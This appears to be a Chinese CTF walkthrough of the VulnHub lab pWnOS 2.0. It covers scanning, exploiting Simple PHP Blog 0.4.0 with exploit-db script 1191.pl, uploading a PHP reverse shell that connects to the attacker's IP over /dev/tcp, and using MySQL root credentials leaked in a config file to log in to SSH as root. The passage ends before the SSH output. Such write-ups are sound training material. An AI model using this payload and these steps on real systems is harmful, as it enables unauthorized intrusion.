# 前言

### 靶场介绍

pWnOS: 2.0 是一台托管在 VulnHub 上的 Linux 靶机，IP 静态设置为 10.10.10.100，需要将攻击机配置在同一 10.10.10.0/24 网段内。

**涉及知识点：**

- Web 目录枚举与假站识别
- CMS 指纹识别（Simple PHP Blog 0.4.0）
- 公开 EXP 利用（任意文件上传 + 密码修改）
- 反弹 Shell 获取 Web 权限
- 配置文件凭证泄露
- SSH 直登 root 提权

**靶场信息：**

| 字段     | 值                                                |
| ------ | ------------------------------------------------ |
| 靶机名    | pWnOS: 2.0                                       |
| 靶机 IP  | 10.10.10.100                                     |
| 靶机 URL | https://www.vulnhub.com/entry/pwnos-20-pre-release,34/ |
| 下载（镜像） | https://download.vulnhub.com/pwnos/pWnOS_v2.0.7z |

**环境配置说明**

操作：打开虚拟网络编辑器，修改 VMnet8（NAT 网卡）为 10.10.10.0 网段，网关 10.10.10.15。



点击 NAT 设置修改网关地址：



**涉及工具**

- Nmap
- dirsearch
- searchsploit
- perl（运行 EXP 1191.pl）

---

# 1. 信息收集

## 1.1 Nmap 信息扫描

### 端口扫描

```bash
nmap -sT -p- --min-rate 10000 10.10.10.100 -oA port
```



### 详细信息

```bash
nmap -sT -sV -sC -O -p22,80 10.10.10.100 -oA detail
```



### 漏洞扫描

```bash
sudo nmap --script=vuln -p22,80 10.10.10.100 -oA vuln
```



---
## 1.2 Web 探测

### 主页访问

```bash
curl http://10.10.10.100
```

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
        <meta http-equiv="content-type" content="text/html; charset=iso-8859-1" />
        <title>Welcome to this Site!</title>
<style type="text/css" media="screen">@import "includes/layout.css";</style>
</head>
<body>
<div id="Header">IsIntS</div>
<div id="Content">
<h1>Welcome</h1><p>Welcome to my IsIntS Internal Website.</p>
<p>If you have any questions email me at admin@isints.com</p>
</div>
<div id="Menu">
<a href="index.php" title="Home Page">Home</a><br />
<a href="register.php" title="Register for the Site">Register</a><br />
<a href="login.php" title="Login">Login</a><br />
</div>
</body>
</html>
```



login 登录界面弱密码 + 万能密钥尝试，万能密钥登入显示 `Logging in...`，不知道是不是卡住了，有可能是一个假的网站。



### 目录扫描

```bash
dirsearch -u 'http://10.10.10.100/' -o dirs.txt
```



有效结果——之前的猜测是正确的，前面的页面是一个假的网站，真实的网站应该是在 `/blog`：

```
[01:39:19] 302 -   20B  - /activate  ->  http://10.10.10.100/index.php
[01:39:23] 301 -  242B  - /blog  ->  http://10.10.10.100/blog/   # <-- 真实站点
[01:39:23] 200 -    2KB - /blog/
[01:39:24] 403 -  236B  - /cgi-bin/
[01:39:28] 200 -    9KB - /info.php
[01:39:29] 200 -  629B  - /login.php
[01:39:33] 200 -  723B  - /register.php
```

访问 `http://10.10.10.100/blog/index.php`，觉得这应该是一个 CMS 漏洞利用的方向。



### CMS 指纹识别

打开网页源码，找到如下 meta 标签：

```html
<meta name="generator" content="Simple PHP Blog 0.4.0" />   <!-- <-- CMS 版本指纹 -->
```



---

# 2. 权限立足

## 2.1 CMS EXP 利用（Simple PHP Blog 0.4.0）

搜索 `Simple PHP Blog 0.4.0 exploit`，通过搜索引擎发现这个 CMS 存在很多可利用漏洞：



参考：https://www.exploit-db.com/exploits/1191

用 Kali 自带的 searchsploit 查找：

```bash
searchsploit Simple PHP Blog 0.4.0
```



拷贝 EXP 到当前目录：

```bash
searchsploit -m php/webapps/1191.pl
```

安装依赖：

```bash
# 检查 Perl 是否已安装
perl -v

# 安装所需模块
sudo cpan LWP::UserAgent HTTP::Request::Common Getopt::Std Switch

# 缺少 Switch 模块时运行
sudo apt install libswitch-perl
```

EXP 用法：

```
Usage   : ./1191.pl [-h host] [-e exploit]

        -?      : this menu
        -h      : host
        -e      : exploit
                (1)     : Upload cmd.php in [site]/images/
                (2)     : Retreive Password file (hash)
                (3)     : Set New User Name and Password
                        -U      : user name
                        -P      : password
                (4)     : Delete a System File
                        -F      : Path and System File
```

先用 `-e 3` 修改密码，创建可登录账户：

```bash
./1191.pl -h http://10.10.10.100/blog -e 3 -U a -P a
```

成功登录页面。在阅读 EXP 的时候发现它存在任意文件上传的漏洞，其中给出了文件上传目录就是 `/images`。



## 2.2 文件上传 + 反弹 Shell

先上传测试图片，验证 `/images` 目录是否可访问：

```
http://10.10.10.100/blog/images/test01.jpg
```


确认可访问，上传反弹 Shell：

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.128/4444 0>&1'"); ?>
```

本地监听后，访问触发：

```
http://10.10.10.100/blog/images/shell.php
```



成功拿到 Web Shell。

---

# 3. 提权

## 3.1 基础信息收集

拿到 Web Shell 以后，先对靶机的基础信息做了一个全面的了解。

### 内核版本

```bash
www-data@web:/var/www/blog/images$ uname -a
Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
```

### 计划任务

```bash
www-data@web:/var/www/blog/images$ cat /etc/crontab
# /etc/crontab: system-wide crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

计划任务没有可直接利用的项，转向凭证泄露方向。

### 用户列表

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:0:0:MySQL Server,,,:/root:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
landscape:x:104:110::/var/lib/landscape:/bin/false
dan:x:1000:1000:Dan Privett,,,:/home/dan:/bin/bash
```

> 注意 mysql 用户ID为0:0, 应该有root用户权限。可以优先考虑mysql相关的凭证泄露问题。
## 3.2 凭证泄露

在基础信息中没得到可直接利用的地方，因为是一台偏简单的靶机，觉得作者想通过凭证泄露的手段让我们登录提权，随即开始寻找凭证泄露的信息。

先搜配置文件：

```bash
www-data@web:/var/www$ find . -name '*conf*'
./includes/config.inc.php
./blog/scripts/sb_config.php
./blog/config
./blog/config/config.txt
```

在 `/var/www/` 目录下发现 `mysqli_connect.php`，打开一看有一套凭证，但是尝试以后发现不正确，MySQL 和 su 都不能登录，同时也尝试了另外一个用户也不行：

```bash
www-data@web:/var/www$ cat mysqli_connect.php
<?php
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');    # <-- 此凭证无效
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
?>
```



在退回到 `/var` 目录下时，发现有一个同名的 `mysqli_connect.php`，打开文件一看里面也有一套凭证，尝试以后发现凭证正确：

```bash
www-data@web:/var$ cat mysqli_connect.php
# ...
<?php
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');    # <-- 有效凭证
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
?>
```

| 字段  | 值           |
| --- | ----------- |
| 用户名 | root        |
| 密码  | root@ISIntS |

## 3.3 SSH 直登 root

通过 SSH 尝试，这个泄露的凭证能直接登录 root 用户：

